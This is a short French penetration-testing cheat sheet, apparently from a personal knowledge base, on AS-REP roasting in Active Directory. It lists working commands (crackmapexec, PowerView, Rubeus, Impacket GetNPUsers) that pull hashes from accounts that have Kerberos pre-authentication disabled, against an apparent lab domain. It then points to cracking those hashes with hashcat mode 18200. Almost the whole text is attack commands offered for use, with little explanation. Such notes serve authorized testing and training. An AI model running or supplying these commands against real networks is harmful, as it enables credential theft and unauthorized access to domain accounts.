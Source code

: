 ```yaml
---
public: true # set to true to make the article publishable
---
```


Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

# A VERIFIER NE SEMBLE RIN AVOIR 0 FAIRE ICI
# kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]

